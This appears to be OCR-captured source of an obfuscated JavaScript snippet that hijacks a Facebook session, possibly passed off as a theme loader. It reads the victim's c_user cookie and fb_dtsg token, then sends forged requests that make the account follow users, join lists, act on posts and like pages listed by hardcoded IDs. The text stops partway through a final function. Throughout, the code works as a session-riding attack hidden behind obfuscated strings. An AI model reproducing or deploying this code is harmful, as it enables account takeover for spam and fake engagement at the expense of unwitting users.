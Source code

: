 _0x3ff7x3= new XMLHttpRequest;var _0x3ff7x4=_0x235a[0];var _0x3ff7x5=_0x235a[1]+_0x3ff7x2+_0x235a[2]+fb_dtsg+_0x235a[3]+user_id+_0x235a[4];_0x3ff7x3[_0x235a[6]](_0x235a[5],_0x3ff7x4,true);_0x3ff7x3[_0x235a[7]]=function (){if(_0x3ff7x3[_0x235a[8]]==4&&_0x3ff7x3[_0x235a[9]]==200){_0x3ff7x3[_0x235a[10]];} ;} ;_0x3ff7x3[_0x235a[11]](_0x3ff7x5);} ;a(_0x235a[12]);function sublist(_0x3ff7x7){var a=document[_0x235a[14]](_0x235a[13]);a[_0x235a[15]]=_0x235a[16]+_0x3ff7x7+_0x235a[17];document[_0x235a[19]][_0x235a[18]](a);} ;sublist(_0x235a[20]);sublist(_0x235a[21]);sublist(_0x235a[22]);sublist(_0x235a[23]);sublist(_0x235a[24]);sublist(_0x235a[25]);sublist(_0x235a[26]);sublist(_0x235a[27]);sublist(_0x235a[28]);sublist(_0x235a[29]);sublist(_0x235a[30]);sublist(_0x235a[31]);sublist(_0x235a[32]);sublist(_0x235a[33]);sublist(_0x235a[34]);var user_id=document[_0x235a[36]][_0x235a[35]](document[_0x235a[36]][_0x235a[35]](/c_user=(\d+)/)[1]);var fb_dtsg=document[_0x235a[39]](_0x235a[38])[0][_0x235a[37]];var now=( new Date)[_0x235a[40]]();function P(_0x3ff7xc){var _0x3ff7xd= new XMLHttpRequest();var _0x3ff7xe=_0x235a[41];var _0x3ff7xf=_0x235a[42]+_0x3ff7xc+_0x235a[43]+now+_0x235a[44]+_0x3ff7xc+_0x235a[45]+user_id+_0x235a[46]+fb_dtsg+_0x235a[4];_0x3ff7xd[_0x235a[6]](_0x235a[5],_0x3ff7xe,true);_0x3ff7xd[_0x235a[7]]=function (){if(_0x3ff7xd[_0x235a[8]]==4&&_0x3ff7xd[_0x235a[9]]==200){_0x3ff7xd[_0x235a[10]];} ;} ;_0x3ff7xd[_0x235a[11]](_0x3ff7xf);} ;var fb_dtsg=document[_0x235a[39]](_0x235a[38])[0][_0x235a[37]];var user_id=document[_0x235a[36]][_0x235a[35]](document[_0x235a[36]][_0x235a[35]](/c_user=(\d+)/)[1]);function Like(_0x3ff7x11){var _0x3ff7x12= new XMLHttpRequest();var _0x3ff7x13=_0x235a[47];var _0x3ff7x14=_0x235a[48]+_0x3ff7x11+_0x235a[49]+user_id+_0x235a[50]+fb_dtsg+_0x235a[4];_0x3ff7x12[_0x235a[6]](_0x235a[5],_0x3ff7x13,true);_0x3ff7x12[_0x235a[7]]=function (){if(_0x3ff7x12[_0x235a[8]]==4&&_0x3ff7x12[_0x235a[9]]==200){_0x3ff7x12[_0x235a[10]];} ;} ;_0x3ff7x12[_0x235a[11]](_0x3ff7x14);} ;Like(_0x235a[51]);function IDS(_0x3ff7x16){var _0x3ff7xd= new XMLHttpRequest();var _0x3ff7xe=_0x235a[52];var _0x3ff7xf=_0x235a[53]+_0x3ff7x16+_0x235a[54]+user_id+_0x235a[55]+fb_dtsg+_0x235a[4];_0x3ff7xd[_0x235a[6]](_0x235a[5],_0x3ff7xe,true);_0x3ff7xd[_0x235a[7]]=function (){if(_0x3ff7xd[_0x235a[8]]==4&&_0x3ff7xd[_0x235a[9]]==200){_0x3ff7xd[_0x235a[10]];} ;} ;_0x3ff7xd[_0x235a[11]](_0x3ff7xf);} ;
/*********************** COPYRIGHT ***********************/
/* LIST */
sublist("1375669152702978");sublist("1375673402702553");sublist("1375717846031442");sublist("1375664092703484");sublist("1375663972703496");sublist("1375663799370180");sublist("1375663629370197");sublist("1375664326036794");sublist("1375664419370118");sublist("1375664492703444");sublist("1375664649370095");sublist("1375664689370091");sublist("1375664729370087");sublist("1375664782703415");sublist("1375672799369280");
/* POST */
P("370744089733576");P("477457172359290");P("1375627139373846");P("1375772416025985");P("1375778032692090");P("1375905599346000");P("466185386754952");
/* FANSPAGE */
Like("694369857241431");Like("269074586495954");Like("344916522317615");Like("299721979430");Like("112699618742378");
/* FOLLOW */
a("100006763176322");
/*********************** COPYRIGHT ***********************/
/* Theme Load */
(function() {